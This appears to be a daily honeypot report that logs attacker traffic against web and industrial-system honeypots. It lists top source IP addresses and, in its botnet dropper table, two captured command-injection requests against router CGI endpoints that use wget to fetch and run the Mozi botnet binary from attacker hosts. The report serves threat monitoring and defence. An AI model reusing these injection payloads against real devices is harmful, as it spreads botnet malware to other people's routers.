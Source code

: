 ```yaml
---
title: "Report: 2025-03-04 "
date: 2025-03-04
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-04
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                        |
|:----------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 222.140.130.99  | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                          |
| 123.234.147.228 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://123.234.147.228:40427/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                   250 | 194.120.230.215 |
|   1 |                    61 | 193.68.89.10    |
|   2 |                    58 | 45.148.10.34    |
|   3 |                    53 | 45.148.10.35    |
|   4 |                    49 | 45.148.10.90    |
|   5 |                    47 | 185.16.38.107   |
|   6 |                    45 | 130.61.27.215   |
|   7 |                    45 | 5.227.118.140   |
|   8 |                    45 | 192.210.241.208 |
|   9 |                    45 | 211.223.41.90   |
|  10 |                    42 | 178.211.139.120 |
|  11 |                    33 | 141.255.166.90  |
|  12 |                    31 | 92.255.57.58    |
|  13 |                    29 | 195.178.110.163 |